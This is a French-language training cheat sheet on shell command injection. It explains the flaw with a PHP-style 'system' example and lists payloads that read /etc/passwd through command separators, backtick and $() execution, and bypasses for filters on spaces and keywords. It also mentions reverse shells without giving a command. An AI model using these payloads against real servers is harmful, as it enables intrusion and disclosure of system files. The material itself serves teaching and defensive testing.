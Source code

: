 <!--- id: intro --->
<!--- category: cmdinjection --->
# Injection de commandes Shell

L'injection de commande Shell est possible quand un programme utilise une donnée, entrée par l'utilisateur, sans la filtrer, comme argument d'une commande shell.

Par exemple: un formulaire permet de saisir son nom et l'afficher.
Le code coté serveur va ressembler à: system ('echo '.$NAME);
Si nous saisissons: YOLO; cat /etc/password;
Le serveur va enchainer les deux commandes en executant system ('echo YOLO; cat /etc/password;'); et nous permettre de récupérer le contenu du fichier passwd.

<!--- id: CommandPrinciple --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Command Injection: Principe

L'injection de commande Shell est possible quand un programme utilise une donnée, entrée par l'utilisateur, sans la filtrer, comme argument d'une commande shell.

Par exemple: un formulaire permet de saisir son nom et l'afficher.
Le code coté serveur va ressembler à: 
````system ('echo '.$NAME);
````
Si nous saisissons: 
````YOLO; cat /etc/password;
````
Le serveur va enchainer les deux commandes en executant:
<pre><code>system ('echo YOLO; cat /etc/password;'); 
</code></pre> 
Nous allons récupérer le contenu du fichier passwd.

Avec une injection de commande nous avons la main sur le serveur.
Nous pouvons récupérer des informations sur le serveur (uname -a), recupérer des noms de comptes (cat /etc/passwd), récupérer les fichiers de config du serveur web, lancer un reverse shell...

<!--- id: CommandChainUx --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Unix: Enchainer deux commandes shell

Utiliser les séparateurs de commandes ; && | ||
<pre><code>echo YOLO; cat /etc/passwd
echo YOLO && cat /etc/passwd
echo YOLO | cat /etc/passwd
echo YOLO || cat /etc/passwd    Seulement si la première commande est en echec
</code></pre> 

<!--- id: CommandEvalUx --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Unix: Force command execution in a string

Il est possible de forcer l'execution d'une commande avec ` $ et {
<pre><code>echo `cat /etc/passwd`
echo $(cat /etc/passwd)
echo {cat,/etc/passwd}
</code></pre> 

<!--- id: CommandSpaceFilteres --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Bypass: Les espaces sont filtrés

Les développeurs peuvent avoir mis des filtres pour empécher l'execution de commande. Par exemple retirer les espaces. Néanmoins, même sans espaces, il est toujours possible de lancer lancer des commandes:
<pre><code>cat&lt;/etc/passwd
{cat,/etc/passwd}
X=$'cat\x20/etc/passwd'&&$X
</code></pre> 

<!--- id: CommandBlacklist --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Bypass: Certains mot clefs sont filtrés

Si un filtre recherche une liste de commandes, il est toujours possible de le contourner: simple quote, double quote, backslash et slash
<pre><code>c'a't /etc/passwd
cat /etc/passwd
c\at /etc/passwd
who``ami
</code></pre> 
Et si un nom de fichier est filtré, il est possible de multiplier les /
Filtre sur cat et /etc/passwd
<pre><code>c\at /etc////////passwd
</code></pre> 

